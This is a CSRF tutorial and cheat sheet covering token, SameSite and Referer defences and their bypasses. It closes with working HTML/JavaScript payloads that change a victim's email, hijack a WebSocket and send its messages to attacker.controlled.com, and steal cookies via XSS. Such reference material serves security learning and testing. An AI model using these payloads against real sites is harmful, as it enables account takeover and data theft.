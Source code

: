 # Cross-Site Request Forgery

Make a user perform actions that they do not intend to perform. Such as, changing Email, changing password, do a money transfer, or send requests to outside urls. The attacker will most likely use a malicious webpage that contains some javascript that triggers the CSRF attack.

### Conditions

- There must be a relevant action for the attacker to take over
- Solely cookie-based session handling
- No unpredictable request parameters

View all my Proof of Concepts [here](#proof-of-concepts)

## Protections & Vulnerabilities

### CSRF tokens
CSRF tokens are generated server side and shared with the client. Before every sensitive action, it checks if the token is correct.
- Quite effective

> Sometimes the implementation has some common flaws that make the application vulnerable:
> - Validation of the CSRF token is skipped when `GET` is used instead of `POST` [PoC](#no-crsf-token-using-get)
> - No validation when CSRF token is not present
> - CSRF token not tied to user, so attacker can use their own token for the payload
> - Maybe the CSRF token is tied to some session-independent cookie (or CSRF token cookie double), so if there is any set-cookie exploit within the domain, it is exploitable

### SameSite cookies
[SameSite](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#samesitesamesite-value) is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. Since sensitive actions propably require an authenticated cookie. Options are "Strict", "Lax", and "None".
- Chrome has `SameSite=Lax` restrictions by default (after 120 seconds on top-level `POST` requests, to make SSO work). "Lax" only sends cross-site cookies if a top-level navigation by the user issues a `GET` request
- Quite effective

> SameSite Lax is not always the best
> - If a website can use `GET` requests for sensitive operations, you can use `window.location = 'url'` to bypass "Lax" restrictions [PoC](#lax--get--method-override)
> - Some frameworks (e.g. [Symfony](https://symfony.com/doc/current/reference/forms/types/form.html#method)) allow the method to be overridden with the "_method" parameter in the form
> - Exploit the 120 second window for default "Lax", refresh the login, then exploit [PoC](#default-lax--sso)
>
> SameSite Strict can still be vulnerable
> - Client-side redirects are same-site, so it will include the cookies, so maybe a user controlled url is used in a client-sided redirect somewhere on the site
> - Or use [XSS](./xss.md) to elicit arbitrary secondary requests to compromise all site-based defenses
> - If websockets are used, it maybe is vulnerable to cross-site WebSocket hijacking, which targets the websocket handshake [PoC](#cross-site-websocket-hijacking)
 
### Referer-based validation
Check the [Referer header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer) to see if the request originated from the application's own domain.
- Not very effective

> Using the Referer header as CSRF protection is not very good
> - Sometimes validation is skipped if the header is omitted [PoC](#referer-omitted)
> - If only checked if the referer contains the site, you can append it to the current url with `/?website`. Must use `Referrer-Policy: unsafe-url` when doing this [PoC](#referer-modified)

## Proof of Concepts

### General | CSRF token | Method override
```html
<html>
    <body>
        <form method="POST" action="https://vulnerable-website.com/email/change">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="xxxx" />
            <input type="hidden" name="_method" value="GET">
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

### No CRSF token using GET
```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

### Lax | GET | Method override
```html
<script>
    window.location = 'https://vulnerable-website.com/email/change?_method=POST&email=pwned@evil-user.net';
</script>
```

### Cross-Site WebSocket Hijacking
```html
<script>
    var ws = new WebSocket('wss://vulnerable-website.com/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://attacker.controlled.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

### Default Lax | SSO
```html
<form method="POST" action="https://vulnerable-website.com/email/change">
    <input type="hidden" name="email" value="pwned@evil-user.net">
</form>
<p>Click anywhere</p>
<script>
    window.onclick = () => {
        window.open('https://vulnerable-website.com/login/sso');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

### Referer omitted
```html
<meta name="referrer" content="never">
```

### Referer modified
Use header `Referrer-Policy: unsafe-url` on malicious website
```html
<script>
    history.pushState("", "", "/?vulnerable-website.com")
</script>
```

### XSS->CSRF
```html
<script>
window.addEventListener('DOMContentLoaded', function(){

var token = document.getElementsByName('csrf')[0].value;
var data = new FormData();

data.append('csrf', token);
data.append('postId', 3);
data.append('comment', document.cookie);
data.append('name', 'victim');
data.append('email', 'foo@bar.com');
data.append('website', 'http://foo.bar');

fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
});
});
</script>
```